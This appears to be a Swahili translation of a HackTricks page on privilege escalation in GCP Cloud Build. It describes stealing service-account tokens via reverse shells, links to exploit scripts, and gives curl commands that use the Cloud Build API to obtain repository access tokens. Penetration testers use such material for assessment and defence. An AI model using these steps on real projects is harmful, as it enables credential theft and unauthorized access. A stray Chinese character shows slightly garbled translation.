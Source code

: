 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Kwa maelezo zaidi kuhusu Cloud Build angalia:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`

Kwa ruhusa hii unaweza **kuwasilisha ujenzi wa wingu**. Mashine ya cloudbuild itakuwa na **token ya Akaunti ya Huduma ya cloudbuild** katika mfumo wake wa faili kwa **default**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Hata hivyo, unaweza **kuashiria akaunti yoyote ya huduma ndani ya mradi** katika usanidi wa cloudbuild.\
Hivyo, unaweza kufanya mashine hiyo kuhamasisha token hiyo kwenye seva yako au **kupata shell ya kinyume ndani yake na kujipatia token hiyo** (faili inayoshikilia token hiyo inaweza kubadilika).

Unaweza kupata script ya asili ya exploit [**hapa kwenye GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (lakini eneo ambalo inachukua token halikufanya kazi kwangu). Hivyo, angalia script ya kuandaa [**kuunda, ku exploit na kusafisha mazingira yenye udhaifu hapa**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) na script ya python ili kupata shell ya kinyume ndani ya mashine ya cloudbuild na [**kuiba token hiyo hapa**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (katika msimbo unaweza kupata jinsi ya kuashiria akaunti nyingine za huduma)**.**

Kwa maelezo ya kina zaidi, tembelea [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Inawezekana** kwa ruhusa hii utaweza **k更新 ujenzi wa wingu na kuiba tu token ya akaunti ya huduma** kama ilivyofanywa kwa ruhusa ya awali (lakini kwa bahati mbaya wakati wa kuandika hii sikuweza kupata njia yoyote ya kuita API hiyo).

TODO

### `cloudbuild.repositories.accessReadToken`

Kwa ruhusa hii mtumiaji anaweza kupata **token ya ufikiaji wa kusoma** inayotumika kufikia hazina:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Kwa ruhusa hii, mtumiaji anaweza kupata **token ya ufikiaji wa kusoma na kuandika** inayotumika kufikia hifadhi:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Kwa ruhusa hii unaweza **kupata repos ambazo muunganisho una ufikiaji nazo:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
